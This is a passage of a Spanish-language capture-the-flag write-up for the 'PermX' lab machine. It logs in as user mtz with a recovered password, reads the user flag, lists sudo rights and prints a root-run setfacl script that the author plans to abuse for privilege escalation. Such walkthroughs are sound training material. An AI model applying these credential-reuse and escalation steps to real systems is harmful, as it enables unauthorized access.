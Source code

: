 ```
su mtz
Password: 03F6lY3uXAP2bkW8
```

O desde la máquina atacante con ssh:

```
ssh mtz@permx.htb
mtz@permx.htb's password: 03F6lY3uXAP2bkW8
```

La contraseña es correcta, ya como `mtz` podemos leer la flag de usuario.

```
cd
cat user.txt
```

Para tratar de escalar privilegios vamos a listar los comandos que podemos ejecutar como root mediante sudo.

```
sudo -l

Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Parece que podemos ejecutar el script `/opt/acl.sh` como root sin proporcionar contraseña, vamos a analizarlo para buscar la forma de escalar privilegios.

```
cat /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
